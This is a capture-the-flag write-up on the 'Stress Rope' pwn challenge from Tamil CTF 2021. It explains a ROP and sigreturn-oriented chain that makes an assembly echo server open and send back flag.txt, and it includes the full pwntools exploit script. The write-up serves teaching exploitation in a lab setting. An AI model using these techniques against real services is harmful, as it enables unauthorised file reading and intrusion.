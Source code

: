 ## **Stress Rope**

was a pwn challenge from Tamil CTF 2021.

it is a small echo server written in assembly, very small, with no libc, very few gadgets..

there are may ways to exploit it, let's look at the reverse

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/reverse.png)

so my exploitation goes like this:

**1st step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step1.png)

we return to 0x40008d address, at the "sub rsi,8" , to read again another bloc, a bit before on stack, to put the filename of the file we want to open there (rsi will point on it). we wait for the next send so...

**2nd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step2.png)

we send the filename that will be written to rsi, we adjust the packet size to 257 , the syscall number of openfileat, which act as open, but the filename is in rsi and not rdi, which is simpler to setup for us. If the filename is absolute, rdi will just be ignored..perfect for us.

We use a little trick, /proc/self/cwd/flag.txt is used as a path, which means the current directory of the actual process..as we don't know the name of the remote directory..

we call the syscall gadget 0x40009b (with rsi, and rax = 257)

then we call one time 0x4000a3 so send back to the program a 8 bytes blocs, to make stop between read.. as the buffering can otherway add small packet sending into a bigger one.

then we return again to read for step3

**3rd step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step3.png)

ok know that we have open the filename for the flag, we are going to put a sigrop frame on stack for the last step.

We don't know the fd number returned by openfileat, but as only stdin, stdout, stderr, a socket should be open remotely..it's probably a small number, 4, 5 or 6 ....we can guess it quickly..

the frame we prepared looks like this

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/sigrop.png)

it is a call to sendfile syscall, which take an input fd, and output fd, and a length basically.

It will transfer data from the opened fd from openfileat (the flag), to stdout (fd = 1)

and we will receive it...

**4th step:**

![](https://github.com/nobodyisnobody/write-ups/raw/main/Tamil.CTF.2021/pwn/Stress.Rope/pics/step4.png)

last step, but not least...

we send a payload of size 15, so setup rax=15 for sigreturn syscall..

and so we execute the sendfile syscall, that will send us back our flag...



<u>here is the exploit code:</u>

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'debug'

exe = ELF('./echo-echo')

host, port = "3.97.113.25", "9002"

p = remote(host,port)

# sendfile sigrop frame ; send us back the opened file via stdout
frame = SigreturnFrame(arch="amd64", kernel="amd64")
frame.rax = 40		# sendfile syscall number
frame.rdi = 1		# stdout
frame.rsi = 5		# remote fd for file opened (found after some tries)
frame.rdx = 0
frame.r10 = 512		# arbitrary size
frame.rsp = 0x400800	# arbitrary stack address (will crash after output anyway)
frame.rip = 0x40009b    # syscall gadget

frame = bytes(frame)
frame = frame[0:0xd0]	# we cut down the size of the frame, because we don't care of the end (empty)

gadget1 = 0x4000a3

# first return back to read, but at sub rsi,8 to write before our buffer the filename
payload = p64(0xdeadbeef)+p64(0x40008d)
payload = payload.ljust(0x12c,'\x00')
p.send(payload)

# send the filename to open and continue ROPPING, sometimes output 8 bytes, to stop between read & write
payload2 = '/proc/self/cwd/flag.txt'.ljust(24,'\x00')+p64(0x40009b)+p64(0x4000a3)+p64(0x400085)
# set the length of this payload to 257, to set eax=257 for next part (openfileat syscall)
payload2 = payload2.ljust(257,b'\x00')
p.send(payload2)

print(p.recv(8))

# put the frame for the sigrop on stack
payload3 = p64(0xdeadbeef)+p64(0x400085)+p64(0xdeadbeef)+frame
payload3 = payload3.ljust(0x12c,'\x00')
p.send(payload3)

# set this payload length to 15, to set eax=15 for sigreturn syscall
payload4 = p64(0xdeadbeef)+p64(0x40009b)[0:7]
payload4 = payload4.ljust(15,b'\x00')
p.send(payload4)

# we receive back flag now send by the sendfile sigrop
p.interactive()
```

*nobodyisnobody still pwning things*
